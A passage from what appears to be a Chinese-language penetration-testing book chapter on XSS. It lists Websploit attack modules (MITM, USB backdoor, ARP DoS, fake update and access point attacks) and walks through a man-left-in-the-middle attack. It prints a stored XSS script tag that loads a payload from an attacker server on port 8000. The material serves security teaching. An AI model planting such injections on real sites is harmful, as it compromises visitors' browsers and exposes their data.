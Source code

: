+   **Dir Bruter**：使用单词列表对目标目录进行暴力破解

+   **管理员查找器**：搜索目标的管理员和登录页面

+   **MLITM 攻击**：中间人攻击，XSS 钓鱼攻击

+   **MITM**：中间人攻击

+   **Java 小程序攻击**：Java 签名小程序攻击

+   MFOD 攻击向量：毁灭之中指攻击向量

+   **USB 感染攻击**：为 Windows 创建可执行的后门以感染 USB

+   **ARP DOS**：随机 MAC 的 ARP 缓存拒绝服务攻击

+   **Web killer 攻击**：关闭网络上的网站（TCPKILL）

+   **假更新攻击**：可以为目标操作系统创建一个假的更新页面

+   **假接入点攻击**：可以创建假的接入点并窃取受害者的信息

由于本章主要讨论 XSS，DOM-based **Man Left in the Middle** (**MLITM**)攻击是我们要使用的工具，所以让我们看看如何利用这个模块。您需要下载最新版本，从 tarball 中提取出来，然后使用安装脚本。

一旦我们安装好了，我们可以简单地从终端会话中调用`websploit`命令，它就会启动 Websploit。从这里，我们将使用 network/mlitm。就模块而言，MLITM 工具再简单不过了。没有需要考虑的选项，因为基本上这个模块包括一个监听 Web 服务器（类似于处理程序）和一个充当默认有效载荷的 Python 模块（`thebiz.py`）。您当然可以制作其他有效载荷；但就像任何 XSS 攻击一样，我们的目标是将一个脚本放在用户信任的路径中，然后使用它将他们的浏览器重定向到我们的攻击服务器，从那里可以安装这个有效载荷并进行信息或操作的编排。

我在这次攻击中使用的脚本非常简单；我们希望将受害者浏览器引入我们的 C2 服务器/攻击盒，并允许运行在默认端口`8000`上的 Web 服务器 Websploit 传递有效载荷并建立我们的通道：

```
<script src=http://172.16.30.128:8000></script>
```

我们将其放在之前使用过的相同博客条目字段上，然后在您知道之前，我们就有了一个不幸的受害者使用了那个链接（如下面的截图所示）：

![](img/B03918_06_16-1.png)

脚本输入和受害者的外观 - 简单而有效。

在我们的 Kali 盒子上，我们可以看到我们正在传递有效载荷，并通过引用链接看到用户的流量，正如我们在下面的截图中开始看到的那样。从这里，您可以随意尝试有效载荷的修改，并实现其他工具中所见的一些控制。

![](img/B03918_06_17-1.png)

Websploit 提供了一个简单而有效的监听和有效载荷传递服务。

Websploit 在攻击链的其他领域是一个强大的工具，并且在 AutoPwn、DoS 和其 WiFi-focused 攻击等混合攻击模块方面表现良好。对于 XSS，我发现 Metasploit 在管理有效负载和提供 shell 选项方面更具多样性。除了 Meterpreter 之外，还有十多种其他 shell 选项，具体取决于您的目标可以逃脱多少，以及所需的隐蔽性和功能性的混合。

## 总结

* * *

自从动态内容的爆炸性增长将 JavaScript 带入 Web 开发的前沿以来，XSS 攻击一直是安全专业人员和数百万受害者的一大难题。再加上建立信任的过时手段（基于实体而没有对输入进行验证），这使得 XSS 成为了 OWASP 十大漏洞之一已经超过 10 年。很明显，应该采取一些措施来引起更多关注，而增加渗透测试的使用可以做出改变。

XSS 的工具有很多，虽然我们在这里包括了一些更容易获取的 Kali 工具，但在准备撰写本章时，我意识到工具集经历了一些起伏；一些工具随着时间的推移已经不再受欢迎，而另一些似乎仍在继续使用。其中一些可能归因于企业赞助 - Rapid7 是维护和赞助 Metasploit 的关键参与者，而 XSSer 和 Websploit 都曾得到间歇性的支持。我鼓励尽可能深入研究这些工具和其他工具，以便更好地了解哪些工具应该放在您的工具箱中。至少应该有两种工具用于每个角色，具有不同的优势和重叠的功能，以帮助更好地覆盖边缘情况。

